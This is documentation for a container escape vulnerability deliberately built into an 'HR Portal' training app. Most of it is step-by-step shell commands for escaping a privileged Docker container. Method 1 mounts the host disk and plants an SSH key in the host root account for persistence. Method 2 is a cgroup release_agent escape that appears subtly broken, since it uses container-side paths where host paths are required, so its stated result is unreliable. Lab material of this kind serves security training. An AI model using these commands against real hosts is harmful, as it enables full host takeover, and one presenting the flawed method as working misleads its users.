 # Container Escape Vulnerability Documentation

## Overview

This document describes a high-severity security vulnerability in the HR Portal application: **privileged container escape**. This vulnerability has been intentionally implemented for educational and security testing purposes.

## Description

The HR Portal application is deployed in a Docker container with the `--privileged` flag enabled. This configuration provides the container with elevated privileges, essentially giving it near-equivalent capabilities to the host system. This is a significant security risk as it enables container escape attacks.

In a secure environment, containers should operate with the principle of least privilege, using only the permissions necessary for the application to function correctly.

## Impact

An attacker who gains access to a container with the `--privileged` flag can:

1. Access and modify the host file system
2. Access sensitive host devices
3. Install kernel modules
4. Potentially gain complete control of the host system
5. Pivot to other containers or systems in the network

## Exploitation Steps

Below is a step-by-step guide on how to exploit this vulnerability to escape from the container to the host system:

### Prerequisites
- Access to the container (e.g., through the RCE vulnerability in the employee upload feature)
- The container is running with the `--privileged` flag (confirmed)

### Method 1: Using Host Devices to Mount Host Filesystem

1. Once you have a shell in the container, verify you're in a privileged container:
```bash
ls -l /dev
cat /proc/self/status | grep CapEff
```

2. Create a temporary directory for mounting the host filesystem:
```bash
mkdir /tmp/host_root
```

3. Use the host's disk device to mount the host filesystem:
```bash
fdisk -l  # Find the main host partition, typically /dev/xvda1 or similar
mount /dev/xvda1 /tmp/host_root
```

4. Access the host's filesystem:
```bash
cd /tmp/host_root
ls -la
# Now you have access to the entire host filesystem
```

5. Establish persistence on the host:
```bash
# Add your SSH key to root's authorized_keys on the host
mkdir -p /tmp/host_root/root/.ssh
echo "YOUR_SSH_PUBLIC_KEY" >> /tmp/host_root/root/.ssh/authorized_keys
```

### Method 2: Using cgroups Release Agent (Advanced)

1. Create the necessary directories and files:
```bash
mkdir /tmp/escape
mount -t cgroup -o rdma cgroup /tmp/escape
mkdir /tmp/escape/x
echo 1 > /tmp/escape/x/notify_on_release
host_path=/tmp/escape/release_agent
echo '#!/bin/sh' > /tmp/payload
echo 'ps aux > /tmp/ps-host.txt' >> /tmp/payload  # Example command - write host process list to a file
chmod +x /tmp/payload
echo "/tmp/payload" > $host_path
chmod +x $host_path
```

2. Trigger the exploit:
```bash
sh -c "echo \$\$ > /tmp/escape/x/cgroup.procs"
```

3. Verify the exploit worked:
```bash
cat /tmp/ps-host.txt  # This should contain the host's process list
```

## Prevention Measures

To fix this vulnerability:

1. Remove the `--privileged` flag from all Docker run commands
2. Use specific capabilities with `--cap-add` only when required
3. Apply the principle of least privilege by only providing necessary access
4. Consider using security tools like AppArmor or SELinux
5. Implement container security scanning in CI/CD pipelines

## Responsible Disclosure

This vulnerability has been intentionally implemented for educational purposes. In a production environment, this would be considered a critical security issue requiring immediate remediation.

If you discover similar vulnerabilities in production systems, follow responsible disclosure procedures and report them to the appropriate security team. 